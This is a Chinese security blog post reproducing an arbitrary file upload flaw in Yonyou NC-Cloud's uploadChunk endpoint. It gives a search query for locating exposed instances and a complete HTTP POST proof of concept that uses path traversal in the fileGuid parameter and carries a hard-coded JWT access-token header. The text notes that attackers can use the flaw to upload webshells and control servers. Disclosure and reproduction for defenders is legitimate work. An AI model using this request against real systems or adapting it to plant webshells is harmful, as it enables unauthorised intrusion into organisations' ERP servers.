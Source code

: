 #  【漏洞复现】用友NC-Cloud系统uploadChunk存在任意文件上传漏洞   
猴子  花果山讲安全   2024-02-12 11:21  
  
- 0x01 阅读须知  
  
**花果山的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**  
- 0x02 产品介绍  
  
用友NC是“企业资源规划（Enterprise Resource Planning）”的缩写，是指用友软件股份有限公司开发的一套企业管理软。用友NC系统是一种集成管理企业各项业务流程的信息化解决方案。该系统涵盖了财务、人力资源、供应链管理等多个方面，旨在帮助企业提高运营效率、优化资源利用、提升管理水平。  
- 0x03 漏洞描述  
  
用友NC Cloud uploadChunk文件存在任意文件上传漏洞，攻击者通过此漏洞可实现上传木马文件，控制服务器。  
- 0x04 漏洞影响  
  
未知  
  
- 0x05 复现环境  
  
app="用友-NC-Cloud"  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/5OQxdkTBpVibC1WZPq1olTlnNLwTULI3Lic5mq9VxrQKiciaYSM2cgFaia9UHK7Fqtz8jdiaibKfUN0lWf2fqNicxSpAMQ/640?wx_fmt=png&from=appmsg "")  
- 0x06 漏洞复现  
  
POC如下：  
```
POST /ncchr/pm/fb/attachment/uploadChunk?fileGuid=/../../../nccloud/&chunk=1&chunks=1 HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
accessTokenNcc: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiIxIn0.F5qVK-ZZEgu3WjlzIANk2JXwF49K5cBruYMnIOxItOQ
Content-Length: 148
Content-Type: multipart/form-data; boundary=de7a6692c03f903d173515933ee6f161

--de7a6692c03f903d173515933ee6f161
Content-Disposition: form-data; name="file"; filename="test.txt"

test
--de7a6692c03f903d173515933ee6f161--
```  
  
poc中存在一个请求头：accessTokenNcc，该请求头为JWT，详情请点击原文查看。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/5OQxdkTBpVibC1WZPq1olTlnNLwTULI3LcvhJ8vfQbH6VuwEtaW6icuw6CZnZZp0SkciblbctZ5gO3cyEuFpXJY6w/640?wx_fmt=png&from=appmsg "")  
  
返回操作成功即证明上传成功，访问test.txt确认。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/5OQxdkTBpVibC1WZPq1olTlnNLwTULI3Lm59oWWNE5DWd69bqcAcv79kAWkXc5CicIz6LRoGNqpeq1p4b8eW8TLw/640?wx_fmt=png&from=appmsg "")  
  
上传成功，至此漏洞复现结束。  
  
